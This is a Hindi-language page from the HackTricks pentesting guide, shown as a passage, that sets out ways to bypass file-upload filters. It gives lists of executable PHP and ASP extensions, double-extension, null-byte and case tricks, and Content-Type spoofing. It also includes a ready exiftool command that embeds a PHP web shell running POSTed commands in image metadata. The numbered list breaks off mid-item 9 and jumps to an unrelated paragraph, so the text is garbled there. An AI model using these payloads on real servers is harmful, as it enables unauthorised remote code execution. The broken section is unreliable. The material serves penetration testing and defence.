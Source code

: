 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# फ़ाइल अपलोड सामान्य मेथडोलॉजी

1. एक **डबल एक्सटेंशन** के साथ एक फ़ाइल अपलोड करने का प्रयास करें \(उदा। _file.png.php_ या _file.png.php5_\)।
* PHP एक्सटेंशन: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, ._phps_, ._pht_, _.phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
* ASP एक्सटेंशन: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .asp, .cer, .shtml_
2. एक्सटेंशन के कुछ अक्षरों को **अपरकेस** में परिवर्तित करने का प्रयास करें। जैसे: _.pHp, .pHP5, .PhAr ..._
3. कुछ **डबल \(या अधिक\) एक्सटेंशन** अपलोड करने का प्रयास करें \(जो एक विशेष एक्सटेंशन की जांच करने वाली गलत विन्यासित जांच को छोड़ देती है\):
1. _file.png.php_
2. _file.png.txt.php_
4. **अपाचे गलत विन्यासों का शोध** करने के लिए **रिवर्स डबल एक्सटेंशन** अपलोड करें \(जहां कुछ भी एक्सटेंशन _.php_ के साथ होगा, लेकिन **अनिवार्य रूप से .php से समाप्त नहीं होगा** वहां कोड को निष्पादित करेगा\):
* _उदा। file.php.png_
5. **नल कैरेक्टर के साथ डबल एक्सटेंशन**: 
1. _उदा। file.php%00.png_
6. एक्सटेंशन के **अंत में कुछ विशेष वर्ण** जोड़ें_: %00, %20, \(कई डॉट्स\)...._
1. _उदा। file.php%00_
2. _उदा। file.php%20_
3. _उदा। file.php...... --&gt; विंडोज में जब एक फ़ाइल डॉट्स के साथ बनाई जाती है, तो वे हटा दिए जाएंगे \(इसलिए आप .php की जांच करने वाले फ़िल्टर को छल सकते हैं\)_
4. _उदा। file.php/_
5. _उदा। file.php.\_
7. **Content-Type** **हैडर** के **मान** को सेट करके Content-Type जांच को छलने का प्रयास करें: _image/png_ , _text/plain , application/octet-stream_
8. **मैजिक नंबर जांच** को छलने के लिए फ़ाइल की शुरुआत में एक वास्तविक छवि के **बाइट** जोड़ें \(फ़ाइल को गुमराह करें\)। या शेल को **मेटाडेटा** में प्रस्तुत करें: `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`
1. यह भी संभव है कि **मैजिक बाइट** फ़ाइल में केवल **जांचे जा रहे हैं** और आप उन्हें **फ़ाइल के कहीं भी सेट** कर सकते हैं।
9. **Windows** में **NTFS वैकल्पिक
फ़ाइलें `.phar` जावा के लिए `.jar` की तरह हैं, लेकिन php के लिए हैं, और इसे **एक php फ़ाइल की तरह उपयोग किया जा सकता है** \(php के साथ इसे निष्पादित करके या इसे स्क्रिप्ट के भीतर सम्मिलित करके...\)

`.inc` एक्सटेंशन कभी-कभी उन php फ़ाइलों के लिए उपयोग किया जाता है जो केवल फ़ाइलें आयात करने के लिए होती हैं, इसलिए, किसी बिंदु पर, किसी ने **इस एक्सटेंशन को निष्पादित करने की अनुमति दी हो सकती है**।

**BurpSuit प्लगइन के साथ बहुत सारी संभावित फ़ाइल अपलोड संरचनाओं की जांच करें** [**https://github.com/modzero/mod0BurpUploadScanner**](https://github.com/modzero/mod0BurpUploadScanner) **या एक कंसोल एप्लिकेशन का उपयोग करें जो अपलोड किए जा सकने वाली फ़ाइलें खोजता है और कोड निष्पादित करने के लिए विभिन्न ट्रिक्स का प्रयास करता है:** [**https://github.com/almandin/fuxploider**](https://github.com/almandin/fuxploider)
